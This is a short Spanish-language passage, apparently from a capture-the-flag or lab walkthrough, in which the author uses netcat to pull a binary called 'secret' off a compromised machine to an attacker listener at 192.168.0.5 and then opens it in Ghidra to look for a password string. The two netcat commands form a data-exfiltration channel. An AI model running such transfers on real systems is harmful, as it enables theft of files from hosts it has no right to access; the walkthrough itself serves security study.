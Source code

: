 1. En mi máquina atacante pongo un netcat para escuchar

```php
nc -lp 8888 >secret
```

2. En la máquina vulnerada transfiero el binario

```php
nc -w 3 192.168.0.5 8888 <secret
```

* Lanzo *ghidra* y busco una cadena **pass**

![first-4](./66-4.png)

* Analizo el código

![first-5](./66-5.png) 
